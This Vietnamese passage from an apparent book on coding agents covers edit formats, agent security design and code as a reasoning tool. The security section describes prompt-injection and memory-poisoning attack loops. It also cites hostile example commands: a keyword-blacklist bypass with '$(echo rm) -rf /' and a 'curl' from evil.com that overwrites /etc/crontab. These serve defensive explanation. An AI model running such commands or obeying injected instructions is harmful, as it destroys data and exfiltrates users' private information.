

**Diff Description + Apply Model**: Model không trực tiếp chỉ định cách edit file; thay vào đó, nó sinh ra một change description—có thể là một diff text tương tự như git diff (định dạng xuất ra từ lệnh `git diff`, chỉ rõ "dòng nào bị xóa và dòng nào được thêm vào"), hoặc một code skeleton kèm theo các omission markers (dùng comment dạng "remain unchanged here" để bỏ qua các phần không sửa đổi). Bản mô tả này sau đó được chuyển giao cho một "Apply Model" chuyên trách—thường là một LLM khác nhỏ hơn, nhanh hơn—chịu trách nhiệm merge nó với file gốc để tạo ra file mới hoàn chỉnh. Sự phân tách trách nhiệm (separation of concerns) này cho phép main model tập trung vào code logic bậc cao, trong khi apply model chuyên tâm vào các thao tác xử lý text cấp thấp. Điểm mong manh của một naive implementation nằm ở bước merge: khi có những sai lệch nhỏ giữa change description và code thực tế trong file, hệ thống phải tự xác định xem chúng có cùng trỏ tới một vị trí hay không; khi có nhiều đoạn code tương đồng nhau, nó rất dễ merge nhầm vị trí. Cursor là đại diện tiêu biểu cho sự tiến hóa liên tục của hướng tiếp cận này: main model output một code skeleton có omission markers, một fast-apply small model được huấn luyện chuyên biệt sẽ rewrite toàn bộ file, và speculative decoding (sử dụng nội dung file gốc làm draft để parallel verification) đã đẩy tốc độ merge lên tới hàng nghìn tokens per second—sự đầu tư mạnh mẽ về mặt engineering đã mang lại cả độ tin cậy lẫn tốc độ vượt trội cho phương pháp này.

**Old String → New String**: Phương pháp được Claude Code áp dụng. Model cung cấp một old string (đoạn text gốc cần thay thế) và một new string (đoạn text thay thế), sau đó framework thực hiện thao tác string find-and-replace đơn giản. Ưu điểm là tính khả đoán (predictability) và độ minh bạch cao—nếu old string tồn tại và là duy nhất (unique) trong file, thao tác thành công; nếu không, nó sẽ fail. Hoàn toàn không có sự nhập nhằng (ambiguity). Chi phí phải trả là khi xóa các block code lớn, model buộc phải output lại toàn bộ nội dung gốc; chỉ cần lệch một ký tự duy nhất cũng khiến quá trình matching thất bại. Khi đoạn code tương tự xuất hiện nhiều lần, model phải cung cấp context dài hơn để khử nhập nhằng (disambiguate).

**Line Number Targeting** (Old Line Numbers → New String): Model chỉ định "xóa từ dòng X đến dòng Y, chèn nội dung mới". Nếu file-reading tool có hiển thị line numbers, model có thể xác định chính xác range cần thay thế. Việc xóa một block code lớn chỉ cần chỉ định line number bắt đầu và kết thúc. Tuy nhiên, mỗi thao tác edit đều làm xê dịch line numbers của toàn bộ phần code phía sau. Khi model đề xuất nhiều edit cùng lúc, tất cả các edit nên quy chiếu về line numbers gốc ban đầu (tương tự như trong diff) để tránh nhầm lẫn.

**Vim-like Edit Commands**: Kế thừa hệ thống lệnh từ Vim editor, hỗ trợ các thao tác phong phú như copy, cut và paste. Rất hiệu quả cho việc tái cấu trúc code (code restructuring - ví dụ như di chuyển một function từ vị trí này sang vị trí khác). Dù vậy, cú pháp lệnh tạo ra một learning burden không nhỏ: các model mạnh nhất có thể xử lý tốt, nhưng các model nhỏ hơn lại mắc lỗi nhiều rõ rệt. Phương pháp này cũng rất bất lợi với model khi nó sinh ra nhiều edit commands chỉ từ một round of thinking duy nhất; bởi sau mỗi thao tác Vim edit, nội dung file và line numbers đều thay đổi, model gần như không thể tính toán trước được line numbers sau khi edit. Nhìn sâu hơn vào bản chất: các editor như Vim vốn được thiết kế cho con người, mà **con người thì cần liên tục quan sát current state rồi mới lập kế hoạch cho một thao tác đơn giản tiếp theo** (viết một dòng code, xóa vài dòng). Nhưng hiện nay, **model lại vận hành theo cơ chế suy nghĩ một chuỗi rất dài rồi thực thi một batch các thao tác phức tạp cùng lúc** (viết một mạch hàng trăm dòng code).

**String Start + End Matching** (Old String Start + End → New String): Đây có thể coi là một bước cải tiến từ scheme thay thế old string. Model không cần output toàn bộ old string; nó chỉ cần cung cấp vài dòng đầu và vài dòng cuối của phần nội dung cần xóa, bỏ qua toàn bộ đoạn ở giữa. Framework sẽ định vị vùng thay thế dựa trên cặp start-and-end này, miễn là sự kết hợp đó là unique trong file. Scheme này kết hợp được độ tin cậy của text replacement với hiệu năng của phương pháp line number—khi xóa các block code lớn, không cần output hàng trăm dòng code gốc mà chỉ cần chỉ ra ranh giới (boundaries). Đồng thời, do vẫn dựa trên content matching thay vì các line numbers trừu tượng, rủi ro model phát sinh lỗi là tương đối thấp.

### Security cho Coding Agents

Phần này hệ thống hóa các tầng phòng thủ của Coding Agent thành một framework mạch lạc: trước tiên chúng ta phác thảo **threat model**—những rủi ro nào mang tính chí mạng nhất; tiếp đến là **isolation đóng vai trò như một lưới an toàn (safety net)**—network egress, file system và giới hạn resource trong sandbox; sau đó là **execution-time defense**—semantic parsing cho các command và speculative execution giúp các bước kiểm tra security trở nên "vô hình" (invisible); và cuối cùng là **trust và loyalty**—Agent phục vụ ai trong bài toán ủy quyền đa bên (multi-party delegation), cùng cách dịch chuyển trust boundary xuống data layer khi chính source code do AI viết không thể tin cậy tuyệt đối. Các thảo luận về threat model, loyalty và trust boundary áp dụng cho mọi Agent; trong khi sandboxing và command parsing là đặc thù riêng của Coding Agents.

Paradigm "sovereign Agent" này cũng kéo theo những thách thức security nghiêm trọng. Một Coding Agent sở hữu permission đọc/ghi file, execute command và truy cập network, đồng nghĩa với việc một khi bị inject các chỉ thị độc hại (malicious instructions), nó có thể gây ra những tổn hại không thể đảo ngược. Nhà phát triển kiêm nhà nghiên cứu độc lập Simon Willison đã đúc kết rủi ro này qua khái niệm nổi tiếng "Lethal Triad" (Bộ ba chí mạng)—khi cả ba yếu tố này cùng xuất hiện, chúng sẽ tạo thành một attack loop hoàn chỉnh, đẩy hệ thống vào mức rủi ro cực cao:

1.  **Access to Private Data** — Agent có quyền đọc file của user và password managers.
2.  **Exposure to Untrusted Content** — Email và trang web được xử lý có thể chứa malicious payloads.
3.  **Ability to Communicate Externally** — Khả năng gửi email và execute các command ra bên ngoài.

Điều này khép kín attack loop: malicious instructions ẩn trong untrusted content xâm nhập vào Agent, điều hướng nó đọc private data rồi exfiltrate dữ liệu đó qua các channel bên ngoài. Cần lưu ý rằng chỉ riêng sự hiện diện của cả ba yếu tố này đã đủ nguy hiểm mà không cần thêm bất kỳ điều kiện nào khác. Trên cơ sở đó, tác giả bổ sung chiều kích thứ tư—**Persistent Memory**. Đây không phải là điều kiện cần thứ tư đặt ngang hàng, mà là một bộ khuếch đại (amplifier) cho các cuộc tấn công: kẻ tấn công có thể ghi các bias có vẻ vô hại hoặc malicious instructions vào long-term memory của Agent, nơi chúng nằm vùng (dormant) xuyên suốt các session và kích hoạt vào thời điểm thích hợp—biến một cuộc tấn công đơn lẻ (one-off attack) thành một mối đe dọa tiềm tàng và tích lũy theo thời gian.

Bốn điểm này có thể khái quát thành bốn loại boundary: data boundary, input trust boundary, output impact boundary và cross-session boundary. Một local Agent toàn quyền (full-permission) như OpenClaw trải dài trên cả bốn chiều rủi ro này, khiến việc bảo vệ security trở thành thách thức cốt lõi mà các Agent dạng này buộc phải đối mặt.

Điều này cũng lý giải vì sao các commercial Agent nguồn đóng (như Claude Cowork (Agent đa năng của Anthropic dành cho công việc tri thức, tái sử dụng agentic architecture của Claude Code, có khả năng đọc/ghi local files và hoàn thành các task nhiều bước trên nhiều ứng dụng văn phòng)) lại lựa chọn chiến lược permission thận trọng. Trước nguy cơ prompt injection, chỉ dùng input filtering gần như không mang lại hiệu quả. Mục tiêu không phải là nhận diện mọi cuộc tấn công, mà là đảm bảo rằng một Agent dù đã bị inject cũng không bao giờ có cơ hội thực thi trót lọt một action nguy hiểm. Đây chính là lúc ba tầng guardrails từ Chương 1 phát huy tác dụng. So với các Agent khác, Coding Agents cần đặc biệt lưu tâm đến:

- **Command Semantic Parsing** — Sự bùng nổ tổ hợp (combinatorial explosion) của các Shell command khiến cơ chế blacklist từ khóa trở nên vô dụng; tác động thực tế của command phải được phân tích ở mức semantic (sẽ được mở rộng ở phần sau của mục này);
- **Sandbox Isolation và Network Egress Control** — Code execution là attack surface đặc thù của riêng Coding Agents; các lựa chọn kỹ thuật (engineering choices) cho isolation level và egress strategy sẽ được trình bày chi tiết ở phần sau;
- **Cross-Session Defense cho Persistent Memory** — Chương này mở rộng phân tích Lethal Triad sang persistent memory: nội dung được ghi vào long-term memory phải trải qua quy trình trust review tương tự như external input, nhằm ngăn chặn malicious instructions nằm vùng trong `MEMORY.md` và kích hoạt về sau.

Ba cơ chế bảo vệ này lần lượt thuộc về verification layer, execution layer và data layer, bổ trợ cho hệ thống phòng thủ từ hai chương trước. Những chiến lược này không thể triệt tiêu hoàn toàn rủi ro, nhưng chúng có thể thu hẹp đáng kể attack surface của Agent.

**Isolation như một Safety Net: Các lựa chọn kỹ thuật cho Code Execution Sandbox.**

- **Network egress control.** Đây là hạng mục dễ bị xem nhẹ nhất nhưng lại mang tính sống còn nhất: mặc định không có network (no network by default), kết hợp với một whitelist proxy chỉ cho phép kết nối đến một nhóm giới hạn các đích đến theo nhu cầu (package sources, documentation sites, các API mà task yêu cầu một cách tường minh). Nhìn lại mục thứ 3 của Lethal Triad—"khả năng giao tiếp ra bên ngoài": network egress control chính là lớp phòng thủ ở execution-layer của nó. Ngay cả khi prompt injection thành công và malicious code đọc được sensitive data bên trong sandbox, việc không có egress sẽ đảm bảo dữ liệu không thể rò rỉ ra bên ngoài.
- **Phạm vi của file-system isolation.** Mount thư mục mã nguồn (source directory) ở chế độ read-only (Agent sửa đổi code thông qua các editing tools, và patch sinh ra sẽ được ghi xuống disk sau khi được review, hoặc một bản sao được mount vào một writable workspace); một thư mục workspace riêng biệt có quyền ghi (writable workspace directory) sẽ lưu trữ các artifact và intermediate file; các credential file (`~/.ssh`, key, token) tuyệt đối không được mount vào sandbox.
- **Resource quota và timeout.** CPU, memory và disk quota cùng với timeout giúp phòng thủ trước infinite loop, fork bomb (các process làm sụp đổ hệ thống bằng cách tự nhân bản liên tục), và các thao tác ghi disk không giới hạn (unbounded disk writes). Một chi tiết thực tế: khi vi phạm timeout hoặc quota, hệ thống nên trả về một structured error cho Agent ("execution was terminated after 120 seconds; the last output follows...") thay vì âm thầm kill process, giúp Agent có cơ hội tự điều chỉnh chiến lược ở turn tiếp theo.

**Safety: Semantic Parsing thay vì Keyword Blacklists.**

Chương 1 đã khẳng định rằng verification layer nên dựa trên semantic understanding thay vì pattern matching. Việc kiểm định an toàn cho Shell command chính là ứng dụng thách thức nhất của nguyên lý này. Các keyword blacklist đơn giản không thể đối phó với sự bùng nổ tổ hợp (combinatorial explosion) của Shell—command có thể bypass bất kỳ static rule nào thông qua pipe, subshell, variable expansion, v.v. (ví dụ: nếu `rm` bị chặn, kẻ tấn công có thể dùng `$(echo rm) -rf /` để bypass). Các Harness production-grade áp dụng semantic parsing: nhận diện loại argument (argument types) và quy tắc parse (parsing rules) của từng command, bao gồm việc flag nào sẽ tiêu thụ các argument đi liền sau nó, đồng thời phát hiện các attack pattern như một flag có vẻ vô hại nhưng lại che giấu payload nguy hiểm trong argument tiếp theo. Ví dụ: `find / -name '*.log' -exec rm {} \;` nhúng thao tác xóa của `rm` thông qua các argument hợp lệ của lệnh `find`; một ví dụ khác là `curl -o /etc/crontab http://evil.com/payload`, bề ngoài là download file nhưng thực chất lại ghi đè scheduled task của hệ thống. Semantic parsing có thể định danh được các thao tác nguy hiểm lồng nhau này, trong khi các command blacklist đơn giản hoàn toàn không thể bắt được. Cơ chế bảo mật dựa trên understanding thay vì matching này là một hiện thực hóa cấp cao của chức năng "constraint".

**Agent phục vụ ai: Tính Loyalty dưới góc độ Multi-Party Delegation.**

Các cơ chế bảo mật ở trên ngăn chặn việc "các command bị thực thi với ý đồ độc hại"; nhưng tồn tại một vấn đề bảo mật tinh vi hơn—**principal loyalty**: **Agent thực sự đứng về phe ai**. Các model được train với một nguyên tắc mặc định khá ngây thơ—"bất kỳ ai đang nói chuyện với tôi, tôi sẽ cố gắng hết sức để giúp họ"—nhưng các Agent trong môi trường thực tế thường vận hành dưới cơ chế **multi-party delegation**: hành động đại diện cho một principal trong khi phải tương tác với các bên thứ ba có xung đột lợi ích. Một Agent thay mặt bạn đàm phán giá cả không phải đang đối mặt với một "user cần giúp đỡ", mà là một **negotiating opponent** (đối thủ đàm phán). Tại đây, "giúp bất kỳ ai cất lời" là một mặc định đầy rủi ro—đối phương có thể bắt đầu thao túng Agent của bạn ngay khi vừa bước vào tương tác.

Khi đưa các frontier model vào tình huống này, ta thấy rõ một **loyalty spectrum** (quang phổ lòng trung thành), trong đó cả hai đầu cực đều thất bại[^ch5-1]: ở một đầu là **quá thành thật (too honest)**—giao nộp thẳng thông tin riêng tư của principal (ví dụ: "giá sàn của chúng tôi là 12.000") cho đối thủ, và nhanh chóng nhượng bộ chỉ sau vài lượt gây áp lực; ở đầu còn lại là **quá đa nghi (too suspicious)**—từ chối cả các yêu cầu hợp pháp của principal, dẫn đến việc làm hỏng task. Điểm phức tạp nằm ở chỗ hai dạng thất bại này như hai đầu của một chiếc bập bênh: hễ bịt kín nguy cơ rò rỉ thì bạn lại trượt sang thiên kiến over-refusal—rất khó để tối ưu cả hai.

Điều này đặc biệt đúng với các Coding Agent: untrusted content được đọc từ một repository, output trả về bởi một tool, instruction gửi đến từ một MCP server của bên thứ ba—tất cả đều là các "đối thủ" đang tìm cách chuyển hóa Agent—**prompt injection bản chất chính là một nỗ lực nhằm chuyển hóa (turning)** (Chương 2 và Chương 4). Do đó, Harness bắt buộc phải chốt chặn rõ ràng Agent trung thành với ai: instruction từ principal nắm giữ độ ưu tiên cao nhất, trong khi toàn bộ dữ liệu từ các bên bên ngoài mặc định bị hạ cấp xuống thành "data có thể dùng để tham khảo nhưng không có hiệu lực như instruction". Trong system prompt, một **loyalty code of conduct** hiệu quả bao gồm: bảo vệ thông tin riêng tư của principal, bao gồm cả việc giữ bí mật về sự tồn tại của thông tin đó; khi từ chối, không liệt kê chi tiết các thông tin được bảo vệ, bởi hành vi đó tự nó đã có thể làm rò rỉ dữ liệu; private bottom line không phải là public position; chỉ thực thi các instruction tường minh và cụ thể từ principal; kiên định trước áp lực lặp đi lặp lại. Về cốt lõi, đây là cách sử dụng Harness để trang bị cho model một lập trường mà mặc định nó không sở hữu: **tuyệt đối loyalty với principal, và luôn cảnh giác trước các bên ngoài**.

[^ch5-1]: Đánh giá hoàn chỉnh về loyalty spectrum và code of conduct này có thể tham khảo tại Li, Bojie and Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026.

## Code: Meta-Capability của một General Agent

Phần trước đã trình bày cách xây dựng một Coding Agent đáng tin cậy—từ architecture, tool implementation cho đến harness engineering. Tuy nhiên, giá trị của code generation vượt xa việc chỉ viết các chương trình phần mềm đơn thuần.

> **"Meta-capability" là gì?** Một capability thông thường là khả năng Agent thực hiện một tác vụ cụ thể—trả lời một câu hỏi, gọi một API nhất định, hay sinh ra một đoạn text. Một **meta-capability** là năng lực "có thể tạo ra các năng lực khác": Agent sử dụng nó để viết ra các tool mới, constraint mới, và các hình thức biểu đạt mới on the fly nhằm hoàn thành nhiệm vụ mà không cần phải được tích hợp sẵn mọi capability từ trước. Code generation chính xác là một meta-capability như vậy—nó có tính chính xác (precise), thực thi được (executable), và có khả năng lắp ghép (composable), cho phép tạo ra các tool mới (scripts, chuỗi API calls), các constraint mới (assertions, validation rules), và các hình thức biểu đạt mới (HTML forms, PPTs, video frames).

Vì lý do này, vai trò của code trong một Agent system vượt xa khỏi phạm vi "viết chương trình". Sáu phần tiếp theo sẽ lần lượt chứng minh sáu hướng ứng dụng của meta-capability này ngoài lập trình thuần túy. Sáu hướng này không đơn thuần là một danh sách phẳng; chúng phát triển tuần tự từ trong ra ngoài, được tổ chức dựa trên đối tượng mà meta-capability được áp dụng:

1. **Thinking Itself**—sử dụng code để thay thế reasoning bằng natural language vốn dễ phát sinh lỗi (Thinking Tools);
2. **Business Rules**—mã hóa các policy mơ hồ thành các executable constraint (Business Rule Constraints);
3. **Content Presentation**—generate PPT, video, và các visualization artifact (Multimedia Generation);
4. **System Interfaces**—cầu nối các heterogeneous API và tự động thích ứng với sự thay đổi của data format (System Adapters);
5. **User Interfaces**—dựng động các form và interactive interface (Generative UI);
6. **The Agent Itself**—dùng code để khởi tạo hoặc repair các Agent mới, từ đó hiện thực hóa cơ chế bootstrapping.

### Code as a Thinking Tool

LLM đặc biệt vượt trội trong việc hiểu và sinh natural language, nhưng về bản chất lại rất yếu trong tính toán chính xác, symbolic manipulation và suy luận logic chặt chẽ. Lý do là: cơ chế tư duy của model vốn mang tính probabilistic và xấp xỉ, trong khi các bài toán toán học và logic lại đòi hỏi kết quả deterministic và chính xác tuyệt đối. Một so sánh cụ thể dưới đây sẽ làm rõ điều này:

```text
Problem: "A class has 40 students. 60% take math, 45% take physics, and 25% take both.
          How many students take only physics but not math?"

Pure Natural Language Reasoning (prone to errors):      Code Reasoning (precise and verifiable):
"60% take math = 24 students,                            math = int(40 * 0.60)    # 24
 45% take physics = 18 students,                         phys = int(40 * 0.45)    # 18
 25% take both = 10 students,                            both = int(40 * 0.25)    # 10
 Only physics = 24 - 10 = 14 students"                   only_phys = phys - both  # 8
→ Mistakenly subtracts from math count, answer wrong     → print(only_phys)  # 8 ✓
```

Để LLM đảm nhiệm việc hiểu bài toán và viết code, đồng thời để code interpreter chịu trách nhiệm tính toán chính xác—sự phân chia nhiệm vụ này giúp mỗi bên phát huy tối đa thế mạnh của mình.

Stephen Wolfram, cha đẻ của Mathematica, đã đưa ra một góc nhìn sâu sắc về vấn đề này. Trước khi LLM ra đời, đã tồn tại các hệ thống có khả năng tính toán toán học chính xác—chúng vận hành dựa trên **Symbolic Computation**, tức là xử lý các biểu thức bằng ký hiệu toán học thay vì các giá trị số xấp xỉ. Ví dụ, một máy tính thông thường sẽ xấp xỉ $\sqrt{2}$ thành 1.414, trong khi hệ thống Symbolic Computation sẽ giữ nguyên dạng chính xác $\sqrt{2}$, và chỉ chuyển đổi sang số thập phân khi thực sự cần thiết.

Wolfram Alpha, do chính Wolfram phát triển, là một hệ thống như vậy: người dùng nhập bài toán và hệ thống trả về kết quả chính xác. Tuy nhiên, khả năng natural language understanding của nó khá mong manh và phạm vi bao phủ hẹp—nó dựa vào một grammar parser tích hợp sẵn vốn chỉ có thể nhận diện một tập hợp các cách diễn đạt hạn chế; chỉ một thay đổi nhỏ trong câu chữ cũng có thể khiến parsing thất bại, và hệ thống chắc chắn không thể xử lý open-domain multi-step reasoning.

LLM khỏa lấp hoàn hảo khoảng trống này—chúng xuất sắc trong việc hiểu nhiều cách diễn đạt natural language khác nhau nhưng lại không giỏi tính toán chính xác. Model cộng tác mới là: để LLM chịu trách nhiệm hiểu câu hỏi natural language của người dùng, nhận diện cấu trúc toán học hoặc logic bên trong, và chuyển dịch nó sang một formal language (như ngôn ngữ Mathematica hoặc thư viện SymPy của Python); sau đó bàn giao cho một symbolic computation engine chuyên dụng hoặc constraint solver thực thi để thu về kết quả chính xác.

> **Experiment 5-3 ★★: Sử dụng Code Generation Tools để nâng cao khả năng giải toán**
>
> **Experiment Goal**: Kiểm chứng mức độ cải thiện accuracy trong tư duy toán học của Agent khi được hỗ trợ bởi Code Interpreter.
>
> **Technical Approach**: Trang bị cho Agent một Python sandbox tích hợp các thư viện toán học như sympy, numpy và scipy. Khi Agent gặp một bài toán, nó sẽ formalize bài toán thành Python code: sympy dùng cho symbolic computation (tính vi tích phân, giải phương trình), scipy dùng cho numerical optimization, numpy dùng cho các phép toán ma trận (matrix operations). Đoạn code được generate sẽ thực thi trong sandbox để trả về kết quả chính xác.
>
> **Acceptance Criteria**: Đánh giá bằng tập bài toán dạng AIME-style problems (mô phỏng theo kỳ thi American Invitational Mathematics Examination). So sánh accuracy giữa pure Chain-of-Thought reasoning và code-assisted reasoning; chế độ code-assisted phải đạt accuracy cao hơn vượt trội. Kiểm tra xem code có sử dụng chính xác các thư viện toán học hay không và quá trình giải bài toán có mạch lạc về mặt logic hay không.
>

> **Experiment 5-4 ★★: Sử dụng Code Generation Tools để nâng cao khả năng Logical Reasoning**
>
> **Experiment Goal**: Đánh giá khả năng thực hiện logical reasoning của Agent với sự trợ giúp từ constraint-solving code.
>
> **Technical Approach**: Trang bị cho Agent một Code Interpreter tích hợp thư viện python-constraint. Agent sẽ chuyển đổi các logic puzzles, chẳng hạn như bài toán Knights and Knaves, thành các formal constraint models: Agent xác định các variables (danh tính của từng cư dân trên đảo), encode các quy tắc như "hiệp sĩ luôn nói thật" thành các constraints, và invoke solver để tìm ra một satisfying assignment.
>
> **Acceptance Criteria**: Đánh giá bằng [K&K Puzzle dataset](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves). Chế độ code-assisted phải đạt accuracy trên 90%, cao hơn đáng kể so với khi reasoning mà không có sự hỗ trợ của code.
>

Thực nghiệm này cũng làm sáng tỏ một pattern mang tính tổng quát hơn: sự trade-off giữa model và harness. Khi model đủ mạnh, harness có thể mỏng hơn (thinner)—bản thân model đã tự reasoning chính xác, và phần gain thu được từ code solver sẽ hẹp lại. Khi model yếu hơn, harness buộc phải gánh vác nhiều tác vụ hơn—offload các bước logical reasoning cốt lõi sang code và constraint solvers để đảm bảo tính đúng đắn (correctness). Đó là lý do thực nghiệm này chủ ý sử dụng một model yếu hơn nhằm khuếch đại sự tương phản: model yếu thường xuyên mắc lỗi tính toán khi reasoning mà không có trợ giúp từ code, và code assistance sẽ giúp nâng vọt accuracy; trong khi một reasoning model đủ mạnh thường tự giải quyết mọi câu đố mà không cần code assistance, khiến gain từ code assistance hội tụ dần về mức 0. Do đó, harness cần dày đến mức nào phụ thuộc vào capability boundary của model nằm ở đâu—đây là một tiền đề rất dễ bị bỏ quên khi eval bất kỳ kỹ thuật Agent nào: cùng một harness, khi đi kèm với các model có năng lực khác nhau, có thể dẫn tới những kết luận hoàn toàn trái ngược.

### Code như một Constraint cho Business Rules

Phần này phản hồi trực tiếp đến phần Harness Engineering ở phần trước của chương. Một trong những core principles của Harness là "Constraints: Encoded, Not Documented"—chuyển đổi các rules từ tài liệu natural language thành executable code, biến chúng thành các mandatory constraints đối với system behavior thay vì chỉ là các advisory guidelines. Code generation cho phép Agent tự động hoàn thành transformation process này.

Các business rules, workflows, và decision logic nếu chỉ được mô tả bằng natural language sẽ đầy rẫy sự mơ hồ (ambiguity). Thế nào là một "yêu cầu hoàn tiền hợp lý"? Điều gì được coi là một "tình huống khẩn cấp"? Các ranh giới này rất khó để định nghĩa bằng natural language—câu "có thể hoàn tiền trong vòng 7 ngày kể từ ngày mua" nghe có vẻ rõ ràng, nhưng đó là calendar days hay business days? "Mua" ở đây là thời điểm đặt hàng (order placement) hay thời điểm giao hàng (shipment)? Ngược lại, Code là một biểu diễn tri thức (representation of knowledge) tường minh, có thể thực thi (executable)—nó hoặc chạy thành công, hoặc throws an error; hoàn toàn không có trạng thái mập mờ ở giữa.

**Biểu đạt chính xác các Business Rules phức tạp.**

**Natural Language Rules vs. Codified Rules: Bổ trợ lẫn nhau, không thể thay thế cho nhau**

Viết rules trực tiếp trong system prompt cho phép model **giải thích policies** cho users, **xác định các giải pháp thay thế tuân thủ policy (policy-compliant alternatives)** (ví dụ: "đổi vé thay vì hủy"), và đưa ra đánh giá khả thi sơ bộ trước khi thực hiện tool calling.

Ngược lại, việc codify các rules thành các validation tools mang lại ba ưu thế: **decision logic chính xác, không mơ hồ**; **deterministic execution**, đảm bảo cùng một input luôn trả về cùng một output; và khả năng xử lý hiệu quả **các tổ hợp rules phức tạp (complex rule combinations)**, chẳng hạn như multi-condition Boolean logic, tính toán thời gian, và cross-data-source validation.

Trong thực tế, chúng cần được phối hợp cùng nhau: system prompt chứa các natural language rules phục vụ cho việc hiểu ngữ cảnh và giao tiếp, trong khi các decision points then chốt được trang bị các validation tools đã được codify, đóng vai trò như các "gatekeepers" để bảo đảm tính compliance.

Giá trị cốt lõi của codified rules không nằm ở token efficiency mà là **ngăn chặn các sai lầm không thể hoàn tác (irreversible mistakes)**. Việc hủy đơn hàng, chuyển tiền, hay xóa dữ liệu có thể là những thao tác không thể undo một khi đã được thực thi. Codified validation thiết lập một phòng tuyến cuối cùng trước khi operation diễn ra, và giá trị của sự đảm bảo an toàn đó vượt xa chi phí triển khai.

**Kết hợp Validation với Execution: Checklists định hướng Reasoning; Ground-Truth Validation đóng vai trò chốt chặn**

Thay vì xây dựng một validation tool độc lập, hãy tích hợp validation trực tiếp vào bên trong execution tool. Hãy xem xét cancellation policy của ngành hàng không từ τ-bench, một benchmark được thiết kế để evaluate khả năng tool use và policy compliance trong các kịch bản customer-service mô phỏng của ngành hàng không và e-commerce:

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # Optional: for model self-check; server uses database ground truth for verification
    expected_has_insurance: bool = None  # Optional: for model self-check; same as above
) -> dict:
    """
    Cancel a flight reservation.

    Cancellation policy (enforced server-side based on database ground truth):
    - Rule 1: Reservations with any used segments cannot be cancelled
    - Rule 2: Reservations can be unconditionally cancelled within 24 hours of booking
    - Rule 3: Flights cancelled by the airline can always be cancelled
    - Rule 4: Business class can always be cancelled
    - Rule 5: Basic economy and economy require travel insurance to be cancelled

    Before calling, please query the order details and check each rule above one by one. The expected_* parameters
    record the basis for your judgment. The server compares them with authoritative data for auditing, but they do
    not affect the policy decision.
    """
    # All policy facts are read from the database; never trust values reported by the model
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # Server clock, not provided by the model

    # Log a warning if the model's self-reported value does not match the ground truth, to detect erroneous beliefs or potential injection
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Cannot cancel with used segments"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking < 0:
        return {"success": False, "reason": "Booking time is in the future"}
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelled within 24-hour window"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Airline cancelled flight"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class cancellation"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"{r.cabin_class} with insurance"}
        return {"success": False, "reason": f"{r.cabin_class} requires insurance"}

    return {"success": False, "reason": "Does not meet cancellation policy"}
```

Giá trị của design này cần được hiểu trên hai cấp độ:

**Cấp độ thứ nhất: parameter đóng vai trò như một checklist tư duy.** Tool description liệt kê toàn bộ cancellation policy và yêu cầu model phải "query order details và kiểm tra từng điều kiện một trước khi call"; các optional parameter `expected_*` tiếp tục thúc đẩy model chủ động viết ra luồng reasoning của chính nó. Để điền các parameter này, model bắt buộc trước tiên phải call query tool nhằm lấy order details và verify từng điều kiện một — do đó việc điền các parameter này đóng vai trò như một **mandatory checklist**. Khi model nhận thấy cabin class là economy và chưa mua insurance, nó có thể phát hiện ra Rule 5 ngay trong quá trình chuẩn bị call và nhờ đó **tránh initiate call**, thay vào đó trực tiếp phản hồi cho user: "Economy class không có insurance thì không thể cancel. Hãy cân nhắc mua insurance trước khi cancel hoặc thay đổi booking." Lớp này giúp định hướng reasoning và giảm thiểu invalid calls; tuy nhiên, đây không phải là một security boundary. Các giá trị `expected_*` thực chất chỉ là self-reported claims, hoàn toàn không phải là facts được server tin cậy.

